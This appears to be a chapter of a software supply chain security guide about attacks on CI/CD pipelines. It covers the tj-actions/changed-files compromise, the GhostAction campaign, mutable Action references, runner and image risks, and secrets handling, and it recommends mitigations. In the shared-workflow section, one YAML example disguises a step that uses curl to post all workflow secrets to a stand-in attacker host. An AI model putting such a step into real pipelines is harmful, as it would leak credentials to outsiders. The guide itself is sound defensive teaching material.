

# 10.10 CI/CD Pipeline Supply Chain Attacks

Modern software development relies heavily on Continuous Integration and Continuous Deployment (CI/CD) pipelines to automate building, testing, and deploying code. These pipelines have become critical infrastructure—and high-value targets for attackers. A compromised CI/CD component can affect thousands of downstream projects, exfiltrate secrets, and inject malicious code into production systems without touching the source code itself.

The attack surface extends beyond the pipeline configuration you write. Third-party Actions, shared workflows, build images, and self-hosted runners all represent supply chain dependencies that attackers increasingly target. When a widely-used GitHub Action is compromised, every repository using it becomes vulnerable.

!!! danger "Privileged Position"

    CI/CD systems handle secrets, run arbitrary code, and actions taken are implicitly trusted as "passing CI." A single compromised Action can affect thousands of repositories.

## The CI/CD Attack Surface

CI/CD systems occupy a privileged position in the software supply chain:

- **Access to secrets**: Pipelines handle API keys, deployment credentials, signing keys, and cloud provider tokens
- **Code execution**: Pipelines run arbitrary code as part of build and test processes
- **Trusted context**: Actions taken by pipelines are often implicitly trusted—they've "passed CI"
- **Wide blast radius**: A single compromised component can affect thousands of repositories

**Key Attack Vectors:**

| Vector | Description | Example |
|--------|-------------|---------|
| Third-party Actions | Malicious or compromised reusable Actions | tj-actions/changed-files (CVE-2025-30066) |
| Shared workflows | Compromised workflow templates | Organization-wide workflow poisoning |
| Build images | Malicious base images for CI runners | Poisoned Docker images in CI |
| Self-hosted runners | Compromised runner infrastructure | GhostAction campaign |
| Mutable references | Unpinned Action tags enabling silent swaps | Using `@main` instead of SHA |
| Secrets exposure | Credentials leaked through CI logs or outputs | Environment variable dumping |

## The tj-actions/changed-files Incident

!!! example "tj-actions/changed-files (CVE-2025-30066)"

    A widely-used Action was compromised to exfiltrate secrets. Repositories using mutable version references (like `@v1`) automatically pulled the malicious version. Lesson: pin Actions to specific commit SHAs.

In March 2025, CISA issued an alert[^cisa-tj-actions] about a supply chain compromise affecting the widely-used `tj-actions/changed-files` GitHub Action and related `reviewdog/action-setup` Action (CVE-2025-30066). This incident illustrates the risks of CI/CD supply chain attacks.

**What happened:**

1. Attackers compromised the `tj-actions/changed-files` Action, which is used by thousands of repositories to detect which files changed in a pull request
2. The compromised Action was modified to exfiltrate secrets from CI environments
3. Because many repositories used mutable version references (like `@v1` or `@main`), they automatically pulled the malicious version
4. Secrets including API tokens, cloud credentials, and deployment keys were exposed

**Why it was effective:**

- **High leverage**: A single Action used across thousands of workflows
- **Trusted position**: The Action had access to the repository and its secrets
- **Silent propagation**: Mutable version tags meant automatic updates to malicious code
- **Delayed detection**: The compromise wasn't immediately visible in repository code

**Lessons:**

!!! tip "Pin to Commit SHA"

    Mutable tags like `@v1` or `@main` can silently update to malicious versions. Always pin Actions to specific commit SHAs and verify Action sources before adoption.

- Pin Actions to specific commit SHAs, not mutable tags
- Audit third-party Actions before adoption
- Implement least-privilege secrets access
- Monitor for unexpected Action behavior

## The GhostAction Campaign

The GhostAction campaign demonstrated how attackers can systematically harvest secrets from GitHub Actions environments at scale.

**Attack methodology:**

1. Attackers identified repositories using vulnerable or misconfigured Actions
2. Crafted malicious inputs (pull requests, issues) that triggered workflows
3. Exploited Actions that exposed environment variables or secrets in logs
4. Harvested thousands of tokens and credentials across repositories

**Tokens and secrets stolen included:**

- GitHub personal access tokens (PATs)
- AWS credentials
- NPM publish tokens
- Docker registry credentials
- Cloud provider API keys

**Scale of impact:**

The campaign affected thousands of repositories and resulted in significant credential theft. The attack demonstrated that CI/CD environments are rich targets for credential harvesting—often containing more sensitive secrets than the application code itself.

## Shared Workflows and Templates

Organizations often create shared workflows to standardize CI/CD practices. While this improves consistency, it also creates centralized attack targets.

**Risks of shared workflows:**

- **Single point of compromise**: One poisoned template affects all consuming repositories
- **Elevated privileges**: Shared workflows often have broad permissions
- **Update propagation**: Changes automatically apply to all users
- **Limited visibility**: Teams may not review inherited workflow code

**Attack scenarios:**

```yaml
# Malicious addition to shared workflow
- name: "Setup dependencies"
  run: |
    # Legitimate-looking step that exfiltrates secrets
    curl -X POST -d "${{ toJson(secrets) }}" https://attacker.example.com/collect
```

**Mitigations:**

- Review shared workflow changes with the same rigor as application code
- Implement workflow approval requirements for sensitive repositories
- Use workflow call restrictions to limit which workflows can be invoked
- Monitor shared workflow repositories for unexpected changes

## Self-Hosted Runner Risks

Self-hosted runners provide more control and performance than GitHub-hosted runners, but they introduce additional attack surface:

**Persistence risks:**

- Runners may retain state between jobs
- Malicious code can persist on the runner
- Subsequent jobs may be compromised by earlier ones

**Network access:**

- Self-hosted runners often have access to internal networks
- Attackers can use compromised runners for lateral movement
- Runners may be able to access internal services not exposed externally

**Credential exposure:**

- Runners may have cached credentials
- Service accounts with broad permissions
- Access to cloud metadata services

**Hardening recommendations:**

```yaml
# Use ephemeral runners when possible
runs-on: self-hosted
container:
  image: your-org/ci-runner:pinned-sha
  options: --rm  # Remove container after use
```

- Use ephemeral (one-shot) runners that are destroyed after each job
- Isolate runners in dedicated network segments
- Limit runner permissions to minimum necessary
- Monitor runner activity for anomalies
- Regularly rotate runner registration tokens

## Mutable References: The Silent Swap Problem

One of the most common CI/CD vulnerabilities is using mutable version references for Actions and dependencies:

**Dangerous patterns:**

```yaml
# Using branch reference - can change at any time
- uses: actions/checkout@main

# Using mutable version tag - can be moved to new commit
- uses: some-action/useful-tool@v1

# Using floating container tag
container: node:latest
```

**Why this matters:**

When you reference `@v1` or `@main`, you're trusting that the tag will always point to safe code. But tags and branches can be moved:

- An attacker who compromises a repository can update what `v1` points to
- A maintainer might inadvertently introduce a vulnerability
- The "same" reference can resolve to completely different code over time

**Safe patterns:**

```yaml
# Pin to specific commit SHA
- uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11

# Pin container to digest
container: node@sha256:abc123...

# Use verified, immutable references
- uses: actions/checkout@v4.1.1  # Only if you verify the tag is protected
```

**Automation for pinning:**

Tools like Dependabot[^dependabot] and Renovate[^renovate] can automatically update pinned references while maintaining the security benefits of immutable references.

## Build Image Poisoning

CI/CD pipelines often use container images as the execution environment. These images are themselves supply chain dependencies:

**Attack vectors:**

- **Public image compromise**: Malicious updates to popular base images
- **Registry confusion**: Pulling from unintended registries
- **Tag manipulation**: Overwriting existing tags with malicious images
- **Layer injection**: Adding malicious layers to legitimate images

**Example attack:**

An attacker could push a malicious image to Docker Hub with a name similar to a popular CI image, or compromise an existing image's tag:

```yaml
# This could pull a compromised image
container: ci-tools/build-env:latest
```

**Mitigations:**

- Use image digests instead of tags
- Verify image signatures where available
- Use private registries with access controls
- Scan images for vulnerabilities and malware
- Implement admission controls for allowed images

```yaml
# Safe: pinned to digest
container: ci-tools/build-env@sha256:abc123def456...
```

## Secrets in CI/CD Environments

CI/CD pipelines handle sensitive secrets, making them attractive targets:

**Common secrets in CI:**

- Cloud provider credentials (AWS, GCP, Azure)
- Package registry tokens (NPM, PyPI, NuGet)
- Container registry credentials
- Code signing keys
- Deployment credentials
- API keys for third-party services

**Exposure risks:**

1. **Logging**: Secrets accidentally printed to build logs
2. **Environment variables**: All secrets available as environment variables
3. **Output parameters**: Secrets passed between steps
4. **Artifacts**: Secrets included in build artifacts
5. **Pull request access**: Secrets accessible to PR workflows from forks

**Least-privilege practices:**

```yaml
# Bad: All secrets available to entire workflow
jobs:
  build:
    env:
      AWS_ACCESS_KEY: ${{ secrets.AWS_ACCESS_KEY }}
      NPM_TOKEN: ${{ secrets.NPM_TOKEN }}
      DEPLOY_KEY: ${{ secrets.DEPLOY_KEY }}

# Better: Secrets scoped to specific steps
jobs:
  build:
    steps:
      - name: Build
        run: npm run build
      - name: Publish
        env:
          NPM_TOKEN: ${{ secrets.NPM_TOKEN }}
        run: npm publish
```

**Additional protections:**

- Use short-lived credentials (OIDC federation) instead of long-lived tokens
- Separate secrets by environment (dev, staging, production)
- Require approval for jobs accessing production secrets
- Audit secret access and usage
- Rotate secrets regularly

## OIDC and Keyless Authentication

Modern CI/CD platforms support OpenID Connect (OIDC) federation, enabling keyless authentication to cloud providers:

**Benefits of OIDC:**

- No long-lived secrets to steal
- Credentials are scoped to specific workflows and repositories
- Automatic credential rotation
- Audit trail of credential usage

**Example: AWS OIDC configuration**

```yaml
jobs:
  deploy:
    permissions:
      id-token: write  # Required for OIDC
      contents: read
    steps:
      - uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789:role/github-actions
          aws-region: us-east-1
```

OIDC eliminates the need to store cloud credentials as secrets, significantly reducing the attack surface.

## Detecting CI/CD Compromises

Organizations should monitor for signs of CI/CD compromise:

**Indicators of compromise:**

- Unexpected changes to workflow files
- New or modified Actions in workflows
- Unusual network connections from CI environments
- Secrets accessed by unexpected workflows
- Build times or patterns that deviate from normal
- Failed builds followed by successful ones (may indicate testing attacks)

**Monitoring approaches:**

- Version control alerts for `.github/workflows` changes
- Audit logs for secrets access
- Network monitoring for CI environments
- Behavioral analysis of build patterns
- Regular review of third-party Action updates

## Recommendations

**For Development Teams:**

1. **Pin all Actions to commit SHAs.** Never use mutable references like `@main` or `@v1` in production workflows. Use tools like Dependabot to manage updates.

2. **Audit third-party Actions.** Before adopting an Action, review its code, maintainer reputation, and permissions requirements. Prefer Actions from verified creators.

3. **Implement least-privilege secrets.** Only expose secrets to steps that need them. Use environment-specific secrets.

4. **Use OIDC where possible.** Replace long-lived cloud credentials with OIDC federation.

**For Security Teams:**

1. **Monitor workflow changes.** Alert on modifications to CI/CD configurations, especially in critical repositories.

2. **Implement workflow restrictions.** Use repository rulesets to control which workflows can run and what permissions they have.

3. **Audit self-hosted runners.** Regularly review runner configurations, network access, and security posture.

4. **Test CI/CD security.** Include pipeline security in penetration testing and red team exercises.

**For Organizations:**

1. **Establish CI/CD security policies.** Define standards for Action adoption, secrets management, and workflow review.

2. **Centralize workflow management.** Use organization-level workflows and Actions to maintain consistency and security.

3. **Plan for compromise.** Have runbooks for responding to CI/CD incidents, including credential rotation procedures.

4. **Invest in visibility.** Deploy monitoring and alerting for CI/CD environments to detect compromises quickly.

CI/CD pipelines are critical infrastructure that deserves the same security attention as production systems. As attackers increasingly target these environments, organizations must treat pipeline security as a core supply chain concern—not an afterthought.

[^cisa-tj-actions]: CISA, "Supply Chain Compromise in Third-Party tj-actions/changed-files," March 2025, https://www.cisa.gov/news-events/alerts/2025/03/18/supply-chain-compromise-third-party-tj-actionschanged-files-cve-2025-30066-and-reviewdogaction
[^dependabot]: GitHub, "Dependabot," https://docs.github.com/en/code-security/dependabot
[^renovate]: Mend, "Renovate," https://docs.renovatebot.com/


